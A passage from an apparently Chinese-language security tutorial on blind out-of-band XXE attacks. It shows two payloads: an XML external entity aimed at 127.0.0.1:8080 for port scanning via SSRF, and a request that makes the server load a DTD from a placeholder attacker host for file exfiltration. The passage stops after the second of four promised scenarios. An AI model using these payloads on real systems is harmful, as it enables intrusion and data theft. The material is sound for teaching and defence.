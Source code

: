 

## 盲带外XEE（Blind OOB XXE）

如上例所示，服务器将`/etc/passwd`文件的内容作为响应返回给我们的XXE。 而有些情况下虽然实际上没有将响应返回给攻击者的浏览器或代理，但服务器仍然可能受到XXE的攻击。盲带外XXE（OOB XXE）将就允许我们以不同方式利用此漏洞。 由于我们无法直接查看文件内容，因此仍可以扫描内部IP，端口，使用易受攻击的服务器作为代理在外部网络上执行扫描并执行代码。

下面将演示4个漏洞利用场景。

### <a class="reference-link" name="%E5%9C%BA%E6%99%AF1%20-%20%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F"></a>场景1 – 端口扫描

在第一个例子中，受到攻击的服务器对我们的攻击返回了响应。 我们使用文件URI方案将请求指向`/etc/passwd`文件。当然也可以使用http URI方案并强制服务器向我们选择的边界点和端口发送HTTP GET请求，将XXE转换为SSRF（服务器端请求伪造）。

下面的代码将尝试与端口8080通信，并且根据响应时间和/或响应长度，攻击者将知道它是否已打开。

```
&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE GVI [&lt;!ENTITY xxe SYSTEM "http://127.0.0.1:8080" &gt;]&gt;
&lt;catalog&gt;
   &lt;core id="test101"&gt;
      &lt;author&gt;John, Doe&lt;/author&gt;
      &lt;title&gt;I love XML&lt;/title&gt;
      &lt;category&gt;Computers&lt;/category&gt;
      &lt;price&gt;9.99&lt;/price&gt;
      &lt;date&gt;2018-10-01&lt;/date&gt;
      &lt;description&gt;&amp;xxe;&lt;/description&gt;
   &lt;/core&gt;
&lt;/catalog&gt;
```

### <a class="reference-link" name="%E5%9C%BA%E6%99%AF2%20-%20%E9%80%9A%E8%BF%87DTD%E8%BF%9B%E8%A1%8C%E6%96%87%E4%BB%B6%E6%B8%97%E9%80%8F"></a>场景2 – 通过DTD进行文件渗透

外部文档类型定义（DTD）文件可用于通过让易受远程攻击的服务器获取攻击者托管在VPS上的.dtd文件，并执行该文件中包含的恶意命令来触发OOB XXE。 DTD文件基本上是充当被攻击服务器的指令文件。

以下请求已发送到应用程序以演示和测试此方法：

```
&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE data SYSTEM "http://ATTACKERSERVER.com/xxe_file.dtd"&gt;
&lt;catalog&gt;
   &lt;core id="test101"&gt;
      &lt;author&gt;John, Doe&lt;/author&gt;
      &lt;title&gt;I love XML&lt;/title&gt;
      &lt;category&gt;Computers&lt;/category&gt;
      &lt;price&gt;9.99&lt;/price&gt;
      &lt;date&gt;2018-10-01&lt;/date&gt;
      &lt;description&gt;&amp;xxe;&lt;/description&gt;
   &lt;/core&gt;
&lt;/catalog&gt;
```
